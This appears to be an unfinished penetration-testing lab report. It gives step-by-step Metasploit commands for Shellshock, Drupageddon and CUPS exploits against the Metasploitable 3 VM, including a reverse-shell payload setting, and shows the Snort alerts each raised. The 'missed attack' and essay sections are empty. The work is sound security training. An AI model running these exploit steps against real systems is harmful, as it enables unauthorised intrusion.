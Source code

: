 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.

## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```


## IDENTIFIED ATTACK 2: Drupal Drupageddon

### Description

**Component Targeted:** Drupal Web Application

**Execution Method:** This attack exploits a remote code execution vulnerability in Drupal (versions 7.0 to 7.31), commonly referred to as "Drupageddon". The vulnerability allows an attacker to execute arbitrary PHP code on the web server by exploiting an SQL injection vulnerability in the Drupal HTTP Parameter Key/Value handling. [CVE-2014-3704](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/drupal_drupageddon`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /drupal/`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:58460 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 3: CUPS Filter Bash Environment Variable Code Injection (Shellshock)

### Description

**Component Targeted:** CUPS (Common UNIX Printing System)

**Execution Method:** This attack exploits a remote code execution vulnerability in the CUPS printing system by leveraging the Shellshock vulnerability in Bash. The vulnerability allows an attacker to inject and execute arbitrary code via manipulated environment variables passed to the CUPS filters.

**Preparation:** Before performing the attack, ensure the `vagrant` user is added to the `lpadmin` group on the Metasploitable box, as the exploit requires elevated privileges to execute properly.
```
usermod -a -G lpadmin vagrant
```

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/cups_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the CUPS username: `set HttpUsername vagrant`
4. Set the CUPS password: `set HttpPassword vagrant`
5. Set the payload to use a reverse TCP connection: `set PAYLOAD cmd/unix/reverse_ruby`
6. Configure the local host IP for the payload: `set LHOST  <listen_ip>`
7. Execute the attack: `run`

**Snort Output:**
```
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58859 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58862 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631 
```



## MISSED ATTACK 1:
**description**

## MISSED ATTACK 2:
**description**

## ESSAY: The benefits and shortcomings of using intrusion detection systems
